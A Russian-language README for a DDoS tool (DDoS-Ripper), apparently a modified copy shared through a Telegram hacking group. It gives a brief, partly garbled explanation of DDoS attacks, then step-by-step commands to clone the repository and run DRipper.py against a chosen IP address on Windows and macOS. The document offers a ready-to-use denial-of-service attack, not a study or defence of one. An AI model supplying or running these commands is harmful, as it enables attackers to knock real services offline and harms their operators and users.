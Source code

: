 # DDOS Атаки

# Что такое DDOS атака?
DDOS атака - распределённая атака типа "отказа обслуживания". Она нейтрализует цели или соединённую инфраструктуру потоком Интернет трафика.

DDOS атаки становятся эффективнее используя несколько компьютерных систем как источник атак трафиком. Поисковые системы могут включать компьютеры и другие сетевые ресурсы, например IoT устройства.  
Грубо говоря, DDOS атака что-то вроде неожиданной пробки на трассе, которая препятствует важным автомобилям доехать до точки назначения

## ВНИМАНИЕ - пожалуйста, удостоверьтесь, что установили python3 и Telegram Desktop
Telegram Desktop необходим для подключения к прокси Telegram, т.е. VPN использовать не обязательно. 
### Свои данные авторизации вводить нигде не надо!!!

Cкачать Telegram Desktop: https://desktop.telegram.org
Для Mac OS скачивать с сайта, не с App Store!

## Использование
`git clone https://github.com/palahsu/DDoS-Ripper`
`cd DDoS-Ripper`

## Для Windows
`python DRipper.py -s [ip Address] -t 135`
`Пример: python DRipper.py -s 0.00.00.00 -t 135`

## Для MacOS
`python3 DRipper.py -s [ip Address] -t 135`
`Пример: python DRipper.py -s 0.00.00.00 -t 135`

# Изменено @cybers0ldier01

С любыми предложениями или вопросами обращаться в группу в Телеграмме:

<a href="https://t.me/hackingPatriots"><img src="https://img.shields.io/badge/Telegram-Group%20Telegram%20Join-blue.svg?logo=telegram"></a>
